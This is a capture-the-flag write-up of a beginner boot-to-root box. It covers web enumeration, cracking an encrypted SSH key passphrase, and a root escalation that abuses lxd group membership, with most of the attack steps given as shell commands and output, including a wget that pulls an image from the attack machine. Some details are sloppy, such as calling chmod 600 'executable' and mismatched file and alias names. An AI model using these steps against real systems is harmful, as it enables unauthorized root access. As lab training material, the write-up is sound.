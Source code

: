 > An Easy Boot2Root box for beginners
#### User Flag
1. Stared off with basic enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. Navigating to the webpage, I clicked around until I found the `/uploads` path
3. I also found the username `john` in the source code
4. This contained an image, dictionary list, and hacker manifesto
5. I ran steg checks on the image but came up with nothing so I moved on from that
6. Next I ran gobuster to look for other paths `gobuster dir -u 10.10.239.127 -w /usr/share/dirb/wordlists/common.txt`
7. That revealed `robots.txt` which also directs you tot eh `/uploads` path, as well as `/secret`
8. The secret path contained an rsa private key, which I assumed was to use for ssh
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
[ ETC ]
```
9. I downloaded the key and ran `chmod 600` to make it executable
10. To log in to ssh with the private key, we need the passphrase
11. I used `ssh2john secretKey` to convert the hash to a crackable format first
12. Then I ran `john gs-rsa --wordlist="dict.lst"` to crack the passphrase
```shell
└─$ ssh -i secretKey john@10.10.239.127 
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)
```
13. The user flag was in john's home directory
#### Priv Escalation
1. Since I can't run `sudo -l` with no password, I had to find a differnt method to gain root
2. First I checked `/etc/crontab` but that didn't contain anything
3. Running `id` on john, I found an interesting group called `lxd`
```shell
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
4. lxd deals with linux containers similar to an application like docker
5. To exploit this, I downloaded `lxd-alpine-builder` on my attack machine
```shell
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git
└─$ cd lxd-alpine-builder 
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```
6. Now we have to build it with i686 architecture
```shell
└─$ sudo ./build-alpine -a i686
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  alpine-v3.19-i686-20240410_2128.tar.gz  build-alpine  LICENSE  README.md
```
7. To transfer the image, I launched a python server on my attack machine with `python3 -m http.server`
```shell
john@exploitable:~$ wget http://10.2.91.174:8000/alpine-v3.19-i686-20240410_2128.tar.gz
john@exploitable:~$ lxc image import alpine-v3.19-i686-20240410_2128.tar.gz --alias alp
Image imported with fingerprint: 9040fc16bbd675e014c9bfe0bcad601e2b8f54e93a1c109d912fc829030d1f5b
```
8. You can check the image specifications like architecture and size with `lxc image list`
9. Now we just create the instance as privileged, add access to te host device, and launch
```shell
john@exploitable:~$ lxc init alpine gameserv -c security.privileged=true
Creating gameserv
john@exploitable:~$ lxc config device add gameserv host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to gameserv
john@exploitable:~$ lxc start gameserv
john@exploitable:~$ lxc exec gameserv /bin/sh
~ # whoami
root
```
10. The root flag wasn't in `/root` (evil if you ask me) so I dug around manually for about 25 seconds before just using find
```shell
/ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
/ # cd mnt/root/root/
/mnt/root/root # ls
root.txt
```
12. Done!
